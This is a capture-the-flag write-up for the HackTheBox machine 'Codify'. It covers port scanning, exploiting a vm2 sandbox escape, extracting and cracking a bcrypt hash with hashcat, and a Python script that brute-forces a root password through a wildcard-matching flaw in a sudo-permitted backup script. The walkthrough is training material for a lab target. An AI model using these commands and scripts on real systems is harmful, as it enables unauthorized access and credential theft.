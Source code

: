# HTB - Codify

### TL;DR
This is an Ubuntu 22.04 machine running a web application created with vulnerable version of vm2 library. Exploiting the vulnerability, we get inital foothold, and pivot to ssh user is gained through password hunting in the file system. Escalation is achieved exploiting vulnerability in local backup shell script, for this purpose we generate our own custom exploit.

**Keywords:**<br>
node.js, vm2, python exploit scripting

**References:**<br>
https://www.cvedetails.com/cve/CVE-2023-32314
https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac
https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching
### PHASE 1. Service enumeration
Launch a port scan with `nmap`
```markdown
> nmap $target -p- -T4 -Pn --open --reason
nmap $target -p- -T4 -Pn --open --reason
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-05 06:35 EST
Nmap scan report for 10.129.156.20
Host is up, received user-set (0.065s latency).
Not shown: 64814 closed tcp ports (conn-refused), 718 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3000/tcp open  ppp     syn-ack

Nmap done: 1 IP address (1 host up) scanned in 30.45 seconds
```
There are 2 web servers running. If you browse with firefox, you see they are made with vm2 library.

![codify2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/67d649f9-bbb7-4e24-80a6-430cbdecafa8)

For reverse shell, we'll focus on exploiting vm2 vulnerabilities.
### PHASE 2: User
Searching for vm2 vulnerabilities, we came across this cve-2023-32314 (https://www.cvedetails.com/cve/CVE-2023-32314). A poc can be found in github: https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac. Running it in the application we have immediate code execution.

![codify1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/3106cd02-8828-48bb-9a51-9f36691a0b4d)

Which can be used to send a `mkfifo nc` reverse shell.

![codify3jpg](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/b968c1f1-5f35-4ea5-8027-e55803658b2d)

Once inside the machine, first step is to inspect the `/etc/passwd` file, which reveals our first step would be to pivot to user joshua.
```markdown
> cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
```
Searching for interesting files in the file system, we came across this one `/var/www/contact/tickets.db`, which turns out to contain joshua's password hash.
```markdown
> cat /var/www/contact/tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��     tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua**$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2**
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```
This is a blowfish hash which can be cracked with `hashcat`.
```markdown
hashcat -m 3200 -a 0 -d 1 hash.txt .\rockyou.txt -r .\rockyou-30000.rule
```
ssh in as user joshua using found credentials and collect the flag.
### PHASE 3. System
Let's see if joshua is a sudoer.
```markdown
sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
It seems he can sudo run a backup script located at `/opt/scripts/mysql-backup.sh`. Inspect the code of the script which reveals to be vulnerable to wildcard injection.

![codify4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/5d9dc9ca-0f30-47fa-bcca-f403f554bed5)

Using double brackets in the `if` comparison hypothetically allows us to use wildcards to guess the password, using a process similar to blind sql injections.
To find out more about the difference between single brackets and double brackets read this: https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching. In summary both conditions `[[$DB_PASS == Password123!]]` and `[[$DB_PASS == P* ]]` will be evaluated as true in the if statement.
To brute force the password you can use 3 methods:
1. Manually. Letter by letter, not recommended.
2. Semi-manually. Create a file called `letter` containing all lower-case, upper-case and digits and bruteforce them using a loop. Add letters sequentially as you discover in each iteration. The first loop iteration would look like this:
```markdown
>for i in $(cat letters);do echo a* | sudo /opt/scripts/mysql-backup.sh && echo "$i";done
```
As soon as you find a new character, add it to the for loop (e.g. `...echo abcde*...`) and repeat until no more letters are discovered.
3. Using a python script. Elegant and fast. The machine also has perl installed. A proposed python script would be the following:
```python
import string
import os

chars = string.ascii_letters + string.digits
password=''
next=1

print("[+] initializing bruteforce script...")
print("[+] bruteforce in progress, please wait...")
while next==1:
        for i in chars:
                errorlevel=os.system("echo "+password+i+"* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
                if errorlevel==0:
                        password=password+i
                        print("[+] new character found: "+password)
                        next=1
                        break
                else: next=0
print("[+] process terminated, root password is: "+password)
```
Running it, the root mysql password is revealed in less than a minute, which turns out to be a reuse of the system's root password.

![codify5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/651f989c-f9e3-4ae8-83a3-a5f97dc017b1)


